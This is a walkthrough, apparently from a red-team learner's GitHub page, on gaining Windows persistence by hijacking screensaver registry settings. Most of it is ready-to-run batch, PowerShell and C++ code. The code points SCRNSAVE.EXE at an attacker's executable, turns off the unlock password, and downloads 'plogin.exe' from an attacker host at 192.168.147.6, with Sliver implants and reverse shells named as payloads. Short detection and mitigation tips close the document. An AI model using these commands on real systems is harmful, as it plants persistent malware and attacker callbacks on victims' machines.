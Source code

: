# Persistence through Windows Screensaver Hijacking

> Austin Lai | August 17th, 2022

---

<!-- Description -->

Brief description: A simple walkthrough on Windows Screensaver Hijacking for persistence.

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [Persistence through Windows Screensaver Hijacking](#persistence-through-windows-screensaver-hijacking)
    - [Table of Contents](#table-of-contents)
    - [Introduction](#introduction)
    - [Simple Demo](#simple-demo)
        - [ScreensaverHijack with command PWNED](#screensaverhijack-with-command-pwned)
        - [ScreensaverHijack with sliver implants](#screensaverhijack-with-sliver-implants)
    - [Additional Information](#additional-information)

<!-- /TOC -->

## Introduction

Screensavers are programs that execute after a configurable time of user inactivity, an adversaries may establish persistence by executing malicious content triggered by screensavers. This feature of Windows it is known to be abused by threat actors as a method of persistence.

Screensavers are Portable Executable (PE) files with a `.scr` extension by default. The Windows screensaver application `scrnsave.scr` is located in `C:\Windows\System32\` and `C:\Windows\sysWOW64\` on 64-bit Windows systems, along with screensavers included with base Windows installations.

The following screensaver settings are stored in the Registry (`HKCU\Control Panel\Desktop\`) and could be manipulated to achieve persistence:

- `SCRNSAVE.exe` - set to malicious PE path.
- `ScreenSaveActive` - set to '1' to enable the screensaver.
- `ScreenSaverIsSecure` - set to '0' to not require a password to unlock.
- `ScreenSaveTimeout` - sets user inactivity timeout before screensaver is executed.

This is low level persistence technique as the registry keys stored under “HKCU“ which does not require system privilege. Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain time-frame of user inactivity.

## Simple Demo

To demo this, we will set the screensaver path to basic batch script to load message box to display "You are Pwned!" with the idle time of 10 seconds when the user is inactive.

Sample basic batch script as below:

```batch
@echo off
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10 /f
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveActive /d 1 /f
reg add "HKCU\Control Panel\Desktop" /v ScreenSaverIsSecure /d 0 /f
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d C:\Windows\Temp\pwn.bat /f

echo @echo off > C:\Windows\Temp\pwn.bat
echo msg %username% You are Pwned! >> C:\Windows\Temp\pwn.bat
```

You may also use powershell script with below:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut' -Value '10' -Force
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveActive' -Value '1' -Force
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaverIsSecure' -Value '0' -Force
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'C:\Windows\Temp\pwn.bat' -Force
```

Once the registry changed, you may use command below to verify registry:

```batch
reg query "HKCU\Control Panel\Desktop" /s
```

If you want to remove the artifacts of registry, you can use powershell or normal dos command below:

```powershell
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut' -Force
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveActive' -Force
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaverIsSecure' -Force
Remove-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Force
```

```batch
reg delete "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /f
reg delete "HKCU\Control Panel\Desktop" /v ScreenSaveActive /f
reg delete "HKCU\Control Panel\Desktop" /v ScreenSaverIsSecure /f
reg delete "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /f
```

Adversaries may use tools such as Sliver C2 implants/beacon, reverse shell from msfvenom or even simple socat/powershell to callback to attacker machines. Simply added line below to download the malicious executable and change the path of “SCRNSAVE.EXE“ to malicious executable.

```batch
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d C:\Windows\Temp\plogin.exe /f

powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.147.6/plogin.exe', 'C:\Windows\Temp\plogin.exe')"
```

We may also use C++ and compile as screensaver register key changer executable using command below:

```bash
x86_64-w64-mingw32-g++ -O2 screensaver-reg.cpp -o screensaver-reg.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Sample of C++ code as below:

```c++
#include <windows.h>
#include <string.h>
#include <iostream>
#include <urlmon.h>
#pragma comment(lib,"urlmon.lib")

using namespace std;

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  
  // Change this to point to YOUR EXE/Script
  const char* placeholder = "C:\\Windows\\Temp\\plogin.exe";
  
  // Change timeouts duration
  const char* timeouts = "5";
  
  // Enable screensavers
  const char* enabled_screensavers = "1";
  
  // Disabled password
  const char* disabled_password = "0";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, REG_SZ, (unsigned char*)enabled_screensavers, strlen(enabled_screensavers));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, REG_SZ, (unsigned char*)timeouts, strlen(timeouts));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaverIsSecure", 0, REG_SZ, (unsigned char*)disabled_password, strlen(disabled_password));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, REG_SZ, (unsigned char*)placeholder, strlen(placeholder));
    RegCloseKey(hkey);
  }
  
  // Enable this if you need to download payload to the victim machines
  // HRESULT hr = URLDownloadToFile(0, L"http://192.168.147.6/plogin.exe", L"C:\Windows\Temp\plogin.exe", 0, NULL);
  // if (hr == S_OK){
  //   cout << "ok" << endl;
  // }
  return 0;
}
```

### ScreensaverHijack with command PWNED

![ScreensaverHijack-with-command-PWNED](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking/blob/master/ScreensaverHijack-with-command-PWNED.gif)

### ScreensaverHijack with sliver implants

![ScreensaverHijack-with-sliver-implants](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking/blob/master/ScreensaverHijack-with-sliver-implants.gif)

## Additional Information

This persistence technique mapping MITRE ATT&CK as below:

- TA0003/Persistence
- T1546/Event Triggered Execution
- T1546.002/Event Triggered Execution: Screensaver

To mitigate this, we should:

- Use Group Policy to disable screensavers if they are unnecessary.
- Block `.scr` files from being executed from non-standard locations.

Blue team should also include below for detection:

- Monitor process execution and command-line parameters of `.scr` files.
- Monitor changes to screensaver configuration changes in the Registry that may not correlate with typical user behavior.
- Though, many security solution including in-built Windows Defender will be able to monitor and detect this persistence method.

Assumption:

- Screensavers are NOT DISABLED by group policy.
- Bypass or managed to disabled Windows Defender.
- Session will drop when the user returns back and the system is not in idle mode.
- If intend to use powershell script, will need to bypass Windows Defender and allow powershell script to execute.

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB
